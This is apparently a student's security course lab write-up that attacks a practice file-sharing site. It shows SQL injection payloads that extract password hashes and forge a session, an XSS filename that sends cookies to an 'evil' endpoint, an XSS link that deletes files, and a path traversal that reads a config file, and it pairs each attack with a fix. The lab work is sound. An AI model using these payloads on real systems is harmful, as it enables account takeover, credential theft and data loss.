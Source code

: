 # Project 3 Writeup

### Flag #3

### #Attack Description

I inputted the following into the search files input box: `' UNION SELECT md5_hash FROM users WHERE username='shomil'-- `. The search result contains all the filenames that the current user has and the password hash for user `shomil`.

### #Improvement Suggestion

We can try to perform input sanitization before directly using the value. Or we can use prepared statements if possible. Lastly, we can use third-party sql query builders that automatically escapes special values to perform query instead of using raw sql expressions.

### Flag #4

#### Attack Description

I manually set the `session_token` cookie to `' UNION SELECT 'nicholas'--` and then attemped to visit `https://box.cs161.org/site/list`. I did this because I suspected that, when user visits a page, the server performs the following query to get the username: `SELECT username FROM sessions WHERE token='%s'` where `%s` is the value of the `session_token` cookie. Our attacks works since it causes the previous query to always returns `nicholas`.

#### Improvement Suggestion

We can try to perform input sanitization before directly using the value. Or we can use prepared statements if possible. Lastly, we can use third-party sql query builders that automatically escapes special values to perform query instead of using raw sql expressions.

### Flag #5

#### Attack Description

I changed the filename of `roadmap.pdf` (under user `nicholas`) to `<script>fetch('/evil/report?message='+document.cookie)</script>`, then shared it to user `cs161`. When they visits the list-files page, the javascript is ran and sends his token to the `evil` backend.

#### Improvement Suggestion

Again, we need to sanitize user inputs before blindly displaying them. This could be done either by  escaping special characters or by simply not allowing them in filenames. Alternatively we can disallow all inline scripts.

### Flag #6

#### Attack Description

I created this following link: `https://box.cs161.org/site/search?term=<script>fetch("/site/deleteFiles",{method:"POST"})</script>`. When a user clicks on this link, all of their files will be deleted.

#### Improvement Suggestion

We need to sanitize user inputs before blindly displaying them. This could be done either by  escaping special characters or by simply not allowing them in filenames.

### Flag #7

#### Attack Description

I first performed a file search with input `' UNION SELECT username FROM users--` to get a list of users and determined that user `uboxadmin` belongs to the admin. Then I searched again with input `' UNION SELECT md5_hash FROM users WHERE username="uboxadmin"--` to obtain the hash of his password. Then I reversed the md5 hash to obtain his password `helloworld`.

#### Improvement Suggestion

The server should store a salted password using a secure hash. Also the admin should not be allowed to reuse their password. 

### Flag #8

#### Attack Description

I first uploaded a file named `../config/config.yml` and then clicks the `open` button to download it. This works because the server first checks if I have access to the file named `../config/config.yml` in `file` folder but then deliver to me `/config/config.yml` . This mismatch of the file used in authorization step and delivery step makes this attack possible.

#### Improvement Suggestion

At the delivery step, the server probably simply concatenate the string `/file` with the filename first, then parse the concatenated string and retrieve the corresponding file. It should instead navigate to `file` folder first, then attempt to retrieve the file. In other words, the server should make sure it only fetches files under the `file` folder.